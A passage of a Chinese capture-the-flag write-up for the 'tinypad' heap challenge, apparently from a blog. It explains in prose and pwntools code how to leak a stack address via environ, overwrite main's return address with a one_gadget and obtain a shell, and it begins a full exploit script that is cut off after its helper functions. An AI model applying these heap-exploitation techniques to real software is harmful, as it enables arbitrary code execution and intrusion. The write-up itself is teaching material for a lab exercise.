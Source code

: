 再申请0xf0大小的chunk（实际大小为0x100），此时申请的chunk就在0x602070处，而该chunk的mem区域与chunk全局数组起始地址0x602140相差（0x602140-0x602070+0x10）=0xc0，用字符a填充，之后按照chunk  size+头指针依次填充全局数组，将chunk_1改为environ地址，chunk2改为0x602148地址（也就是存放environ地址的地址）

	add(0xf0,b'a'*0xc0+p64(0x100)+p64(environ)+p64(0x100)+p64(0x602148))
	ru('INDEX: 1')
	ru('CONTENT: ')
	stack= u64(ru('\n')[:-1].ljust(8,b'\x00'))
	target =  -0xF0 + stack 
	lg('stack',stack)
	lg('target',target)
	#0x7fc7dd85ff38 <environ>:	0x00007ffc91b85d58	0x0000000000000000
	#1e:00f0│       0x7ffc91b85c68 —▸ 0x7fc7dd4b9830 (__libc_start_main+240) ◂— mov    edi, eax
	#  0x7ffc91b85c68-0x00007ffc91b85d58=-0xF0
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/eb9b6db414da4794933e15619b64eaff.png)

泄露出来的chunk_1的内容就是栈地址 stack=0x00007ffc91b85d58，在查看栈区main函数返回地址0x7ffc91b85c68，0x7ffc91b85c68-0x00007ffc91b85d58=-0xF0，所以我们要覆盖的main函数返回地址为target =  -0xF0 + stack
![在这里插入图片描述](https://img-blog.csdnimg.cn/4687391ea27f4699bfb42ba822df650c.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a18627ab0eb547b78e2ed5bba19b75cf.png)
刚才我们把chunk_2的mem指向了chunk_1的mem指针，编辑chunk_2为target地址，把chunk_1的mem指针改为target地址，这时再次编辑chunk_1为one_gadget地址，就把target地址存放的main函数返回地址改为了exeve("/bin/sh\x00")，再退出程序，获得shell

	edit(2,p64(target))
	one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
	shell = one_gadget[0] + libcbase
	edit(1,p64(shell))
	exit()
	itr()
![在这里插入图片描述](https://img-blog.csdnimg.cn/7446788a5c9e455c8c7e3820ac52216c.png)

### exp
	# coding=utf-8
	from pwn import*
	context(endian='little',os='linux',arch='amd64',log_level='debug') #小端序，linux系统，64位架构,debug
	sh = process('./tinypad')
	libc = ELF('/home/pwn/tools/glibc-all-in-one/libs/2.23-0ubuntu11_amd64/libc-2.23.so')
	
	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims             :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	#定义gdb调试函数
	def dbg():
	        gdb.attach(sh)
	        pause()
	